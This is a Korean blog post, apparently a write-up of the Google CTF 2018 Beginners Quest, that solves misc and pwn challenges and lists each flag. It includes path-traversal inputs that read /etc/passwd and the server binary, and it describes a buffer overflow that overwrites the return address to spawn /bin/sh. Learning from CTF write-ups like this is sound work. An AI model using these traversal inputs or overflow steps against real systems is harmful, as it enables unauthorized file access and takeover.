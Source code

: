 ```yaml
---
layout: post
title: "[Google CTF 2018] Beginners Quest Write-up"
image: /img/google_ctf_2018.JPG
tags: [CTF, write-up, pwnable, misc]
---
```


<style>
.effect {
      display: inline-block;
      box-shadow: 0px 0px 20px -5px rgba(0, 0, 0, 0.8);
}
</style>

## 요약
`misc` `pwnable`

---
### LETTER (misc)
<img src="/img/google_letter.JPG" class="effect">

PDF 파일이다. text와 배경색이 검정색으로 되어있어 글씨가 보이지 않지만 드래그 해서 복사하면 값을 알 수 있다.

CTF{ICanReadDis}
<br><br><br>

### OCR IS COOL! (misc)
<img src="/img/google_ocr1.png" class="effect">

<img src="/img/google_ocr2.JPG" class="effect">

이미지 파일이 주어지는데 메일의 내용 중 VMY{...} 가 플래그 형식과 비슷하여 Caesar 복호화를 했더니 플래그가 나왔다.

VMY{vtxltkvbiaxkbltlnulmbmnmbhgvbiaxk} &rarr; CTF{caesarcipherisasubstitutioncipher}
<br><br><br>

### SECURITY BY OBSCURITY (misc)
첨부파일을 받아보면 zip 으로 압축되어 있다. unzip 으로 압축을 여러번 풀면 또 다른 방식으로 압축되어 있다. `zip`, `unzip`, `7z`, `bzip2`, `gunzip` 순서로 압축을 해제하면 마지막으로 패스워드가 걸린 zip 파일이 된다.

advanced ZIP password Recovery 등의 프로그램을 이용하면 패스워드를 알아낼 수 있다. 알아낸 패스워드는 "asdf" 이다.

CTF{CompressionIsNotEncryption}
<br><br><br>

### FLOPPY (misc)
<img src="/img/google_floppy.JPG" class="effect">

<img src="/img/google_floppy_.JPG" class="effect">

ico 파일을 hex editor 로 열어보면 압축 파일이 숨겨져 있는 것을 확인할 수 있다.

CTF{qeY80sU6Ktko8BJW}
<br><br><br>

### MOAR (pwn)

> nc moar.ctfcompetition.com 1337

접속하면 socat 의 man 페이지가 뜬다.

<img src="/img/google_moar.JPG" class="effect">

`![cmd]` 를 이용하여 쉘 명령어를 실행시킬 수 있다.

CTF{SOmething-CATastr0phic}
<br><br><br>

### ADMIN UI (pwn-re)

> nc mngmnt-iface.ctfcompetition.com 1337

```
=== Management Interface ===
 1) Service access
 2) Read EULA/patch notes
 3) Quit
```
1번 메뉴를 선택하면 패스워드를 입력해야 한다.

2번 메뉴를 선택하면 patchnotes 를 읽을 수 있는데 예를 들어서 "Version0.3" 을 입력하면 "Version0.3" 파일을 읽어서 출력해준다.
이를 이용해서 `"../../../etc/passwd"` 를 입력하면 사용자 정보를 확인할 수 있다.
```
The following patchnotes were found:
 - Version0.3
 - Version0.2
Which patchnotes should be shown?
../../../etc/passwd
(생략)
user:x:1337:1337::/home/user:
```

user 라는 사용자명을 확인했으면 user의 홈 디렉토리에서 플래그를 읽는다.
```
=== Management Interface ===
 1) Service access
 2) Read EULA/patch notes
 3) Quit
2
The following patchnotes were found:
 - Version0.3
 - Version0.2
Which patchnotes should be shown?
../../../home/user/flag
CTF{I_luv_buggy_sOFtware}
```

CTF{I_luv_buggy_sOFtware}
<br><br><br>

### ADMIN UI 2 (pwn-re)

2번 메뉴 선택 후, `"../../../proc/self/cmdline"` 을 입력하면 "./main" 을 확인할 수 있다. 이게 실행 파일 이름이다.

다시 2번 메뉴 선택 후, "../main" 을 입력하면 실행 파일을 추출할 수 있다.

<img src="/img/google_adminui2.JPG" class="effect">

<img src="/img/google_adminui2_.JPG" class="effect">

분석해보면 1번 메뉴 선택시 입력해야 하는 첫 번째 패스워드는 ADMIN UI 에서 읽었던 flag 값이고, 두 번째 패스워드는 길이가 35인 값 아무거나 통과된다.
하지만 플래그를 알아야되므로 좀 더 살펴보면, FLAG 라는 전역 변수에 35개의 값이 있고, 0xC7 이랑 xor 하는 루틴이 보인다.

> FLAG = [0x84, 0x93, 0x81, 0xbc, 0x93, 0xb0, 0xa8, 0x98, 0x97, 0xa6, 0xb4, 0x94, 0xb0, 0xa8, 0xb5, 0x83, 0xbd, 0x98, 0x85, 0xa2, 0xb3, 0xb3, 0xa2, 0xb5, 0x98, 0xb3, 0xaf, 0xf3, 0xa9, 0x98, 0xf6, 0x98, 0xac, 0xf8, 0xba]

xor 연산을 해보면
CTF{Two_PasSworDz_Better_th4n_1_k?}
<br><br><br>

### ADMIN UI 3 (pwn-re)

두 개의 패스워드를 통과하면 몇 가지 커맨드를 실행시켜주는 루틴으로 들어간다.

<img src="/img/google_adminui3_shell.JPG" class="effect">

<img src="/img/google_adminui3_system.JPG" class="effect">

quit, version, shell, echo, debug 명령어를 사용할 수 있는데, 이 중에서 shell 명령어를 입력했을 때 shell_enabled 가 1이면 debug_shell()을 호출하고, debug_shell() 에서는 system("/bin/sh") 를 호출한다.

<img src="/img/google_adminui3.JPG" class="effect">

<img src="/img/google_adminui3_.JPG" class="effect">

명령어를 입력받을 때 길이 검사를 하지 않아 `BOF` 취약점이 발생하기 때문에 debug_shell() 함수의 주소를 스프레이해서 return address 를 덮으면 쉘을 획득할 수 있다.

```
Unknown command ''BAA'
> $ quit
Bye!
$ ls
an0th3r_fl44444g_yo
flag
main
patchnotes
$ cat an0th3r_fl44444g_yo
CTF{c0d3ExEc?W411_pL4y3d}
```

CTF{c0d3ExEc?W411_pL4y3d}
